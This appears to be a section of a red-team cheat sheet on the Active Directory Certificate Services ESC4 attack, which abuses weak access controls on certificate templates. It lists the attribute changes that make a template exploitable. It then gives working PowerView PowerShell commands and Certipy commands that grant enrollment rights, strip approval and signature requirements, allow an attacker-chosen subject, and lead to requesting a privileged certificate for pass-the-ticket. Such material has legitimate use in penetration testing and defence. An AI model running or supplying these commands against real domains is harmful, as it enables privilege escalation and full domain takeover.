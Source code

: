 ### Access Controls Attacks - ESC4, 5, 7

#### Sufficient rights against a template - ESC4

* [https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
* [https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)

1. Get Enrollment rights for the vulnerable template
2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval
3. Set `mspki-ra-signature` attribute to `0` for disabling Authorized Signature requirement
4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` for specifying high privileged account name as a SAN
5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication
   * Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)
   * Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)
   * PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)
   * Any Purpose (OID: `2.5.29.37.0`)
   * No EKU
6. Request a high privileged certificate for authentication and perform Pass-The-Ticket attack

##### Windows

```powershell
# Add Certificate-Enrollment rights
Add-DomainObjectAcl -TargetIdentity templateName -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=contoso,DC=local" -Verbose

# Disabling Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# Disabling Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# Enabling SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# Editting Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

##### Linux

* Quick override and restore
```bash
# Overwrite the certificate template and save the old configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -save-old

# After the ESC1 attack, restore the original configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -configuration 'templateName.json'
```
